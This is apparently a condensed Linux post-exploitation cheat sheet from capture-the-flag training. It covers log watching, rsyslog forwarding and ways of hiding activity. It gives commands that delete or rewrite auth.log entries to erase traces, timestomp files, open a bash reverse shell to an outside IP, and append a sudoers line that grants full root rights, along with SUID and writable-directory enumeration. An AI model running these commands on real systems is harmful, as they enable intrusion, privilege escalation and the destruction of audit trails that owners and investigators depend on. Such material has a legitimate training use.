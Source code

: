 ```
journal -f -u ssh
journalctl -q SYSLOG_FACILITY=10 SYSLOG_FACILITY=4
```
#### Cleaning The Logs (Basic)
* Before we start cleaining, save the INODE!
  - Affect on the inode of using `mv` vs `cp` vs `cat`
##### Get rid of it
* `rm -rf /var/log/...`
##### Clear it
* `cat /dev/null > /var/log/...`
* `echo > /var/log/...`
#### Cleaning The Logs (Precise)
##### GREP (Remove)
* `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2`
##### SED (Replace)
* `cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log`
##### Timestomp
* `touch -c -t 201603051015 1.txt    # Explicit`
* `touch -r 3.txt 1.txt    # Reference`
#### Rsyslog
* Newer Rsyslog references `/etc/rsyslog.d/*` for settings/rules
* Older versions only uses `/etc/ryslog.conf`
* Find out with `grep "IncludeConfig /etc/rsyslog.conf`
```
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514                                                    # Old format
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*
```
# CTF
```
watch -n1 'ls -l'
/bin/bash -i >& /dev/tcp/192.168.28.135/33403 0>&1
/var/tmp/testbed/unknown /etc/sudoers 'comrade  ALL=(ALL:ALL) ALL'
```

https://gtfobins.github.io/
find / -type f -perm /6000 -ls 2>/dev/null
/var/spool/cron/crontabs

find / -type d -perm /2 -ls 2>/dev/null
auth.log/secure
	

Logins/authentications
